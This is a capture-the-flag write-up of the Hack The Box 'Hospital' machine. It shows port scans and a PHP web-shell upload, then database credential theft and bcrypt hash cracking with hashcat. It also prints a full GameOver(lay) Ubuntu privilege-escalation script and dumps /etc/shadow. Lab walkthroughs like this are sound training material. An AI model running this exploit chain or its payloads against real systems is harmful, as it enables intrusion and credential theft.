

# Hospital

This is the write-up for the Hospital machine from Hack The Box.

# Reconnaissance

First, we execute a full port scan on the host.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/machines/hospital]
└─$ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.11.241
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1801/tcp  open  msmq
2103/tcp  open  zephyr-clt
2105/tcp  open  eklogin
2107/tcp  open  msmq-mgmt
2179/tcp  open  vmrdp
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
6406/tcp  open  boe-processsvr
6407/tcp  open  boe-resssvr1
6409/tcp  open  boe-resssvr3
6613/tcp  open  unknown
6631/tcp  open  unknown
8080/tcp  open  http-proxy
9389/tcp  open  adws
32775/tcp open  sometimes-rpc13
```

Then we execute a port scan only on the open ports found before.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/machines/hospital]
└─$ sudo nmap -vv -sV -sC -Pn -p 22,53,135,139,443,445,464,593,636,1801,2103,2105,2107,2179,3268,3269,3389,5985,6406,6407,6409,6613,6631,8080,9389,32775 -oA nmap/hospital 10.10.11.241
PORT      STATE SERVICE           REASON          VERSION
22/tcp    open  ssh               syn-ack ttl 62  OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEOWkMB0YsRlK8hP9kX0zXBlQ6XzkYCcTXABmN/HBNeupDztdxbCEjbAULKam7TMUf0410Sid7Kw9ofShv0gdQM=
|   256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGH/I0Ybp33ljRcWU66wO+gP/WSw8P6qamet4bjvS10R
53/tcp    open  domain            syn-ack ttl 127 Simple DNS Plus
135/tcp   open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http          syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds?     syn-ack ttl 127
464/tcp   open  kpasswd5?         syn-ack ttl 127
593/tcp   open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?          syn-ack ttl 127
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
| SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
| -----BEGIN CERTIFICATE-----
| MIIC+TCCAeGgAwIBAgIQdNv8q6fykq5PQSM0k1YFAjANBgkqhkiG9w0BAQsFADAN
| MQswCQYDVQQDEwJEQzAeFw0yMzA5MDYxMDQ5MDNaFw0yODA5MDYxMDQ5MDNaMA0x
| CzAJBgNVBAMTAkRDMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA7obA
| P53k1qyTGrYu36d3MfqWRf+nPEFi6i+GK7/8cOoQfQPjPNMMHcmzHaFgkOdAcv12
| jctNzQYh6xUQY5R3zqjXlJyRorftvBlKDU02S4EOKsdytnziHbHG5ZEvRDoCgVH3
| uvt4U7cqwk1uE0r6iWwegK/xxtTVBPkObmepjTO1DEMyj8j6UU9jwyCH8jE5VTCC
| UiWJI/q+B/tcJcINfFerv4oDagptKrMAIfsX+ReqbZojCD5EREjMUyn+AigZTeyS
| ksesM2Cy6fkVkypComklqJw2YIIlDnPxdh3pAwjyUlbcb6WwE5aEKwuEgyRyXHET
| EKwcUBIa7y3iRSVCpQIDAQABo1UwUzAOBgNVHQ8BAf8EBAMCBaAwHgYDVR0RBBcw
| FYICREOCD0RDLmhvc3BpdGFsLmh0YjATBgNVHSUEDDAKBggrBgEFBQcDATAMBgNV
| HRMBAf8EAjAAMA0GCSqGSIb3DQEBCwUAA4IBAQBjA0NUb25R42VBXvb328jEcMam
| 19VS+MPZijp14phJ0Q/YuxlztTGnSlIFrUPWtJWvx8PLtdCnE1MOmFmcS2TNISg9
| Vt1sE4RF5N9s9TeFqCE80wH+qzZMCaBTlQxrzftkTfN67+SxoEGd6aywXEmzG5tw
| wbEe/dMglJVZ0Uk2DUXjpdXIDQlFIg+Yn0CqWjUvppLUyinxpmVqoC5dY8ijuuem
| 3JjZd5mDoYg1XIP3gfAAutdsce5Safoq7oqh0OYb4sQMu0y9YcRL0JsP3cwB4FnW
| eh2XVUa9NjHJi5hvdH3wy6/jU4UwPED41iuM6Y1rwF/l4J0LmELsmmYZEaWm
|_-----END CERTIFICATE-----
1801/tcp  open  msmq?             syn-ack ttl 127
2103/tcp  open  zephyr-clt?       syn-ack ttl 127
2105/tcp  open  eklogin?          syn-ack ttl 127
2107/tcp  open  msmq-mgmt?        syn-ack ttl 127
2179/tcp  open  vmrdp?            syn-ack ttl 127
3268/tcp  open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
| SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
| -----BEGIN CERTIFICATE-----
| MIIC+TCCAeGgAwIBAgIQdNv8q6fykq5PQSM0k1YFAjANBgkqhkiG9w0BAQsFADAN
| MQswCQYDVQQDEwJEQzAeFw0yMzA5MDYxMDQ5MDNaFw0yODA5MDYxMDQ5MDNaMA0x
| CzAJBgNVBAMTAkRDMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA7obA
| P53k1qyTGrYu36d3MfqWRf+nPEFi6i+GK7/8cOoQfQPjPNMMHcmzHaFgkOdAcv12
| jctNzQYh6xUQY5R3zqjXlJyRorftvBlKDU02S4EOKsdytnziHbHG5ZEvRDoCgVH3
| uvt4U7cqwk1uE0r6iWwegK/xxtTVBPkObmepjTO1DEMyj8j6UU9jwyCH8jE5VTCC
| UiWJI/q+B/tcJcINfFerv4oDagptKrMAIfsX+ReqbZojCD5EREjMUyn+AigZTeyS
| ksesM2Cy6fkVkypComklqJw2YIIlDnPxdh3pAwjyUlbcb6WwE5aEKwuEgyRyXHET
| EKwcUBIa7y3iRSVCpQIDAQABo1UwUzAOBgNVHQ8BAf8EBAMCBaAwHgYDVR0RBBcw
| FYICREOCD0RDLmhvc3BpdGFsLmh0YjATBgNVHSUEDDAKBggrBgEFBQcDATAMBgNV
| HRMBAf8EAjAAMA0GCSqGSIb3DQEBCwUAA4IBAQBjA0NUb25R42VBXvb328jEcMam
| 19VS+MPZijp14phJ0Q/YuxlztTGnSlIFrUPWtJWvx8PLtdCnE1MOmFmcS2TNISg9
| Vt1sE4RF5N9s9TeFqCE80wH+qzZMCaBTlQxrzftkTfN67+SxoEGd6aywXEmzG5tw
| wbEe/dMglJVZ0Uk2DUXjpdXIDQlFIg+Yn0CqWjUvppLUyinxpmVqoC5dY8ijuuem
| 3JjZd5mDoYg1XIP3gfAAutdsce5Safoq7oqh0OYb4sQMu0y9YcRL0JsP3cwB4FnW
| eh2XVUa9NjHJi5hvdH3wy6/jU4UwPED41iuM6Y1rwF/l4J0LmELsmmYZEaWm
|_-----END CERTIFICATE-----
3269/tcp  open  globalcatLDAPssl? syn-ack ttl 127
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Issuer: commonName=DC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-06T10:49:03
| Not valid after:  2028-09-06T10:49:03
| MD5:   04b1:adfe:746a:788e:36c0:802a:bdf3:3119
| SHA-1: 17e5:8592:278f:4e8f:8ce1:554c:3550:9c02:2825:91e3
| -----BEGIN CERTIFICATE-----
| MIIC+TCCAeGgAwIBAgIQdNv8q6fykq5PQSM0k1YFAjANBgkqhkiG9w0BAQsFADAN
| MQswCQYDVQQDEwJEQzAeFw0yMzA5MDYxMDQ5MDNaFw0yODA5MDYxMDQ5MDNaMA0x
| CzAJBgNVBAMTAkRDMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA7obA
| P53k1qyTGrYu36d3MfqWRf+nPEFi6i+GK7/8cOoQfQPjPNMMHcmzHaFgkOdAcv12
| jctNzQYh6xUQY5R3zqjXlJyRorftvBlKDU02S4EOKsdytnziHbHG5ZEvRDoCgVH3
| uvt4U7cqwk1uE0r6iWwegK/xxtTVBPkObmepjTO1DEMyj8j6UU9jwyCH8jE5VTCC
| UiWJI/q+B/tcJcINfFerv4oDagptKrMAIfsX+ReqbZojCD5EREjMUyn+AigZTeyS
| ksesM2Cy6fkVkypComklqJw2YIIlDnPxdh3pAwjyUlbcb6WwE5aEKwuEgyRyXHET
| EKwcUBIa7y3iRSVCpQIDAQABo1UwUzAOBgNVHQ8BAf8EBAMCBaAwHgYDVR0RBBcw
| FYICREOCD0RDLmhvc3BpdGFsLmh0YjATBgNVHSUEDDAKBggrBgEFBQcDATAMBgNV
| HRMBAf8EAjAAMA0GCSqGSIb3DQEBCwUAA4IBAQBjA0NUb25R42VBXvb328jEcMam
| 19VS+MPZijp14phJ0Q/YuxlztTGnSlIFrUPWtJWvx8PLtdCnE1MOmFmcS2TNISg9
| Vt1sE4RF5N9s9TeFqCE80wH+qzZMCaBTlQxrzftkTfN67+SxoEGd6aywXEmzG5tw
| wbEe/dMglJVZ0Uk2DUXjpdXIDQlFIg+Yn0CqWjUvppLUyinxpmVqoC5dY8ijuuem
| 3JjZd5mDoYg1XIP3gfAAutdsce5Safoq7oqh0OYb4sQMu0y9YcRL0JsP3cwB4FnW
| eh2XVUa9NjHJi5hvdH3wy6/jU4UwPED41iuM6Y1rwF/l4J0LmELsmmYZEaWm
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server     syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Issuer: commonName=DC.hospital.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-05T18:39:34
| Not valid after:  2024-03-06T18:39:34
| MD5:   0c8a:ebc2:3231:590c:2351:ebbf:4e1d:1dbc
| SHA-1: af10:4fad:1b02:073a:e026:eef4:8917:734b:f8e3:86a7
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQJ8MSkg5FM7tDDww5/eWcbjANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9EQy5ob3NwaXRhbC5odGIwHhcNMjMwOTA1MTgzOTM0WhcNMjQw
| MzA2MTgzOTM0WjAaMRgwFgYDVQQDEw9EQy5ob3NwaXRhbC5odGIwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQCsE7CcyqvqUyXdwU9hCSyg21qHJ3DGvSiq
| y9+Afp91IKJd35zkbYgFubrF5F4FLUzcHfcrNdBTw6oFMdNZS5txnjVIQfxoCk1f
| EUnONlIEdi9cattgsEzsNRRG9KJoLrNBIVyYAluMzSoaFF5I0lhSWTlv0ANsdTHz
| rzsc8Avs6BkKLsc03CKo4y3h+dzjWNOnwD1slvoA/IgoiJNPSlrHD01NPuD2Q93q
| 5Yr1mlbx9aew2M4gsEH1YO8k6JfTmVQNLApOVlhlRP/Ak2ZBCJz74UWagufguTSG
| dC/ucQHwe3K7qMD+DpxhMm5XaupkQFvxZdb6fQ8f8wgS6RhM/Ph9AgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAXe9RRGaMAiYnxmhDqbb3nfY9wHPmO3P8CUgzWvA0cTKSbYEb5LCA0IBK
| 7v8svFcAQM94zOWisTu54xtuSiS6PcHfxYe0SJwl/VsZm52qt+vO45Zao1ynJdw/
| SnIeAIKktpq8rZZumYwy1Am65sIRZgw2ExFNfoAIG0wJqBDmsj8qcGITXoPUkAZ4
| gYyzUSt9vwoJpTdLQSsOiLOBWM+uQYnDaPDWxGWE38Dv27uW/KO7et97v+zdC+5r
| Dg8LvFWI0XDP1S7pEfIquP9BmnICI0S6s3kj6Ad/MwEuGnB9uRSokdttIDpvU4LX
| zXOe5MnTuI+omoq6zEeUs5It4jL1Yg==
|_-----END CERTIFICATE-----
5985/tcp  open  http              syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
6406/tcp  open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
6407/tcp  open  boe-resssvr1?     syn-ack ttl 127
6409/tcp  open  boe-resssvr3?     syn-ack ttl 127
6613/tcp  open  unknown           syn-ack ttl 127
6631/tcp  open  unknown           syn-ack ttl 127
8080/tcp  open  http              syn-ack ttl 62  Apache httpd 2.4.55 ((Ubuntu))
|_http-server-header: Apache/2.4.55 (Ubuntu)
9389/tcp  open  mc-nmf            syn-ack ttl 127 .NET Message Framing
32775/tcp open  sometimes-rpc13?  syn-ack ttl 127
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

We found two domains and write it down in our hosts local machine file.



Accessing the webpage on port 443, we got the login page from an webmail.


Accessing the service on port 8080, we got the following home page.


# Enumeration

We can create a user account on this application.


Log into our account, it was presented us a upload service.


# Exploitation

We know that the server is running some version of PHP language, so, we try to upload a web shell in this language. We create a file named `shell.phar` provided by p0wny-shell on github.

[https://github.com/flozz/p0wny-shell](https://github.com/flozz/p0wny-shell)

Uploading our malicious file to the host.


Executing a brute-force directory we found a directory uploads.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/machines/hospital]
└─$ gobuster dir -e -u "http://hospital.htb:8080/" -w "/usr/share/wordlists/dirb/common.txt" -t 40 -o gobuster/hospital_8080
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hospital.htb:8080/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://hospital.htb:8080/.htaccess            (Status: 403) [Size: 279]
http://hospital.htb:8080/.htpasswd            (Status: 403) [Size: 279]
http://hospital.htb:8080/.hta                 (Status: 403) [Size: 279]
http://hospital.htb:8080/css                  (Status: 301) [Size: 317] [--> http://hospital.htb:8080/css/]
http://hospital.htb:8080/fonts                (Status: 301) [Size: 319] [--> http://hospital.htb:8080/fonts/]
http://hospital.htb:8080/images               (Status: 301) [Size: 320] [--> http://hospital.htb:8080/images/]
http://hospital.htb:8080/index.php            (Status: 302) [Size: 0] [--> login.php]
http://hospital.htb:8080/js                   (Status: 301) [Size: 316] [--> http://hospital.htb:8080/js/]
http://hospital.htb:8080/server-status        (Status: 403) [Size: 279]
http://hospital.htb:8080/uploads              (Status: 301) [Size: 321] [--> http://hospital.htb:8080/uploads/]
http://hospital.htb:8080/vendor               (Status: 301) [Size: 320] [--> http://hospital.htb:8080/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Now, we access our reverse shell and get Remote Command Execution (RCE) on the host.


Now, we execute a python reverse shell and get a connection back on our listener.


We gained our first access to the host, but checking around, we noticed we were in some kind of container technology.


Searching in the website directory, we found a config.php file and we get the database credentials.

```bash
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

We were able to connect on the MySQL server running on the server with these credentials.

```jsx
(remote) www-data@webserver:/var/www/html$ mysql -h 127.0.0.1 -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 57
Server version: 10.11.2-MariaDB-1 Ubuntu 23.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

We retrieve the hash password from the table users from the database hospital.

```jsx
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| hospital           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.009 sec)

MariaDB [(none)]> use hospital
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [hospital]> show tables;
+--------------------+
| Tables_in_hospital |
+--------------------+
| users              |
+--------------------+
1 row in set (0.001 sec)

MariaDB [hospital]> describe users;
+------------+--------------+------+-----+---------------------+----------------+
| Field      | Type         | Null | Key | Default             | Extra          |
+------------+--------------+------+-----+---------------------+----------------+
| id         | int(11)      | NO   | PRI | NULL                | auto_increment |
| username   | varchar(50)  | NO   | UNI | NULL                |                |
| password   | varchar(255) | NO   |     | NULL                |                |
| created_at | datetime     | YES  |     | current_timestamp() |                |
+------------+--------------+------+-----+---------------------+----------------+
4 rows in set (0.002 sec)

MariaDB [hospital]> select username,password from users;
+--------------+--------------------------------------------------------------+
| username     | password                                                     |
+--------------+--------------------------------------------------------------+
| admin        | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 |
| patient      | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO |
| dev          | $2y$10$ubTiUZlgF9/U78y1piUvX.QoCbzzuya7Krsjm8tqaLJgW/W/gYGcu |
| aaaaaa       | $2y$10$afwMdnyWhkQLnm3wTXdom.Kt.QERfLYCNdFAdTeT.OF6G7Qzo1qTW |
| th3g3ntl3m4n | $2y$10$eUI1U8rn/LkbSwgPjD2N/.O22bdK3qLkK.8N3QE4GD9QPzsnAqmeK |
| 12345Qaz     | $2y$10$H9TynVEe2YqLtAb2EMKKM.RXuz1Wu62aDwNEjyzTl8Bm8E78kruHC |
+--------------+--------------------------------------------------------------+
6 rows in set (0.001 sec)
```

We identified the hash is a bcrypt hash and by running the hashcat tool we could crack it and discover a password in clear text.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/machines/hospital]
└─$ hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt --username --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i5-9500 CPU @ 3.00GHz, 2198/4461 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

$2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2:123456
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3...xcjMh2
Time.Started.....: Thu Nov 30 11:38:17 2023, (1 sec)
Time.Estimated...: Thu Nov 30 11:38:18 2023, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        5 H/s (8.66ms) @ Accel:2 Loops:64 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4/14344385 (0.00%)
Rejected.........: 0/4 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:960-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> password
Hardware.Mon.#1..: Util: 63%

Started: Thu Nov 30 11:37:00 2023
Stopped: Thu Nov 30 11:38:19 2023

```

We couldn’t log into SSH with this password. So we try to crack the dev’s user hash.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/machines/hospital]                                                                                                                                                                                     [7/141]
└─$ hashcat -m 3200 dev.hash /usr/share/wordlists/rockyou.txt --username --force
hashcat (v6.2.6) starting   

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
                                                           
OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i5-9500 CPU @ 3.00GHz, 2198/4461 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2y$10$ubTiUZlgF9/U78y1piUvX.QoCbzzuya7Krsjm8tqaLJgW/W/gYGcu:12345678
                                                                                                                      
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$ubTiUZlgF9/U78y1piUvX.QoCbzzuya7Krsjm8tqaLJg.../gYGcu
Time.Started.....: Thu Nov 30 11:41:48 2023, (1 sec)
Time.Estimated...: Thu Nov 30 11:41:49 2023, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       26 H/s (9.17ms) @ Accel:2 Loops:64 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12/14344385 (0.00%)
Rejected.........: 0/12 (0.00%)
Restore.Point....: 8/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:960-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 12345678 -> daniel
Hardware.Mon.#1..: Util: 58%

Started: Thu Nov 30 11:41:42 2023
Stopped: Thu Nov 30 11:41:50 2023
```

We couldn’t use this password to log into the SSH service as `drwilliams`. Now we tried to escalate our privilege in the container Linux that we gained our first access to. Checking about some public exploits for the kernel system that we are now, we get the following.


We found this about our search.

[GameOverlay Vulnerability Impacts 40% of Ubuntu Workloads | Wiz Blog](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability)

Searching for some public exploit about that CVE, we found this.

[GitHub - g1vi/CVE-2023-2640-CVE-2023-32629: GameOver(lay) Ubuntu Privilege Escalation](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----791ad6dd24ed--------------------------------)

We had to change some things in the exploit and execute it.

```bash
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/th3g3ntl3m4n/bash && chmod 4755 /var/tmp/th3g3ntl3m4n/bash && /var/tmp/th3g3ntl3m4n/bash -p && rm -rf l m u w /var/tmp/th3g3ntl3m4n/bash")'
```

Executing the exploit changed, we got root.

```bash
(remote) www-data@webserver:/tmp/.th3g3ntl3m4n$ ./exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
root@webserver:/tmp/.th3g3ntl3m4n# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

Now we can get the hash from user `drwilliams` reading the `/etc/shadow` file.

```bash
root@webserver:/tmp/.th3g3ntl3m4n# cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
sys:*:19462:0:99999:7:::
sync:*:19462:0:99999:7:::
games:*:19462:0:99999:7:::
man:*:19462:0:99999:7:::
lp:*:19462:0:99999:7:::
mail:*:19462:0:99999:7:::
news:*:19462:0:99999:7:::
uucp:*:19462:0:99999:7:::
proxy:*:19462:0:99999:7:::
www-data:*:19462:0:99999:7:::
backup:*:19462:0:99999:7:::
list:*:19462:0:99999:7:::
irc:*:19462:0:99999:7:::
_apt:*:19462:0:99999:7:::
nobody:*:19462:0:99999:7:::
systemd-network:!*:19462::::::
systemd-timesync:!*:19462::::::
messagebus:!:19462::::::
systemd-resolve:!*:19462::::::
pollinate:!:19462::::::
sshd:!:19462::::::
syslog:!:19462::::::
uuidd:!:19462::::::
tcpdump:!:19462::::::
tss:!:19462::::::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
